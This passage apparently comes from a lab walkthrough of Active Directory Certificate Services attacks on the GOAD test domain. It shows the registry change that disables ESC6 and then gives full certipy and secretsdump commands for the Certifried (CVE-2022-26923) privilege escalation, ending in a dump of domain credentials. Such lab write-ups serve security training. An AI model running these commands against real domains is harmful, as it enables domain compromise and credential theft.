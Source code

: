 - If you need to disable the EDITF_ATTRIBUTESUBJECTALTNAME2 attribute (because you want to try without it or just because [this attack will no longer work on a up to date AD without esc10 vuln](https://github.com/ly4k/Certipy#esc6)), you could do as administrator on braavos the following commands: 

```
certutil –setreg policy\EditFlags –EDITF_ATTRIBUTESUBJECTALTNAME2
net stop certsvc && net start certsvc
```

> This also mean that if you got an administrator access on the certificate server you can change this attribute to exploit ESC1 without being domain admin ;)
{: .prompt-tip }

- But now the exploit ESC6 no longer work, the user is not changed :)

![adcs_exploit_esc6_nolongerwork.png](/assets/blog/GOAD/adcs_exploit_esc6_nolongerwork.png)

## Certifried - CVE-2022–26923

- Oliver Lyak found out a way to escalate privilege as a low privilege user into an active directory.
This consist of change the dnsHostName property on a created computer. The idea look the same as samAccountName vulnerability, it is a confusion with name on authentication. Details are here :
[https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)

- Create an account with a domain user and set a fake dns name as the domain controler.

```bash
certipy account create -u khal.drogo@essos.local -p 'horse' -user 'certifriedpc' -pass 'certifriedpass' -dns 'meereen.essos.local'
```

- Request a certificate with the created computer on template Machine

```bash
certipy req -u 'certifriedpc$'@essos.local -p 'certifriedpass' -target braavos.essos.local -ca ESSOS-CA -template Machine
```

- Authenticate with the certificate as meereen (the dc)

```bash
certipy auth -pfx meereen.pfx -username 'meereen$' -domain essos.local -dc-ip 192.168.56.12
```

- Dump the ndts with the kerberos ticket we just get

```bash
export KRB5CCNAME=/workspace/certifried/meereen.ccache
secretsdump -k -no-pass -just-dc-user daenerys.targaryen ESSOS.LOCAL/'meereen$'@meereen.essos.local
```
